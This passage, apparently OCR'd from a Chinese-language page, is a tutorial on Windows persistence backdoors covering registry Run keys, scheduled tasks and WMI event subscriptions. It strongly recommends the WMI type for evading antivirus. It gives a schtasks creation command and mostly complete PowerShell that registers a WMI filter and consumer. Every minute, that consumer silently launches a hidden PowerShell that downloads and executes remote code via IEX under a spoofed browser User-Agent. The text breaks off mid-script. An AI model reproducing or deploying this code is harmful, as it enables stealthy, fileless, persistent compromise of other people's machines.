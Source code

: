 1. registry型

在一般用户权限下，通常是将要执行的后门程序或脚本路径填写到如下注册表的键值中HKCU:SoftwareMicrosoftWindowsCurrentVersionRun，键名任意。普通权限即可运行。

不过这老生长谈的后门早已被用烂，360杀软会弹框提示。

2. schtasks型

该类型后门可分为管理员权限和普通用户权限，管理员权限可以设置更多的计划任务，比如重启后运行等。

举例：

每小时执行指定命令：

schtasks /Create /SC HOURLY /TN Updater /TR $CommandLine
这里比较大的限制是策略问题，只能按照规定的时间来执行相关程序或命令。通常来讲，持久性的APT对于这点要求较高。

3. WMI型

Defcon23的演讲后，WMI型后门的热度在国外迅速蔓延。（强烈推荐使用该类型后门）

它是只能由管理员权限运行的后门，一般是用powershell编写。目前以这一触发方式运行的后门是不会引起杀软任何反映的。具体原理可到drops去了解。

该类型后门主要用到了WMI展现出来的两个特征：无文件和无进程。

将core code加密存储于WMI类的property中，而该位置在复杂的CIM 数据库中，这达到了所谓的无文件；将filter和consumer异步绑定在一起，当规定的filter满足条件时，比如间隔1min，那么系统会自动启动一进程（名称为powershell）去执行consumer（后门程序）中的内容，当执行完成后，进程会消失，持续的时间根据后门运行情况而定，一般是几秒，这达到了所谓的无进程。

上述三类的详情代码请参考powersploit

现阶段无论再复杂的WMI后门都是围绕上面两点而展开的，最核心的是后者。

下面是比较典型的代码，功能为每分钟执行‘下载并执行’：


$Name = 'test'
# build the filter
$TimeExecTime = 60
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 
                        $TimeExecTime WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$NS = "rootsubscription"
$FilterArgs = @{
    Name=$Name
    EventNameSpace="rootcimv2"
    QueryLanguage="WQL"
    Query=$Query
}
$Filter = Set-WmiInstance -Namespace $NS -Class "__EventFilter" -Arguments $FilterArgs
# build the consumer
$ConsumerName = $Name
$command = "`$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy = [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.DownloadString('$URL'))"
#$encCommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($command))
$commandLine = "C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -NoP -NonI -w hidden -Command $command"  
$ConsumerArgs = @{
    Name=$ConsumerName
    CommandLineTemplate=$commandLine
}
$consumer = Set-WmiInstance -Class "CommandLineEventConsumer" -Namespace $NS -Arguments $ConsumerArgs
#Bind filter and consumer
$Args = @{
   Filter = $Filter
   Consumer = $consumer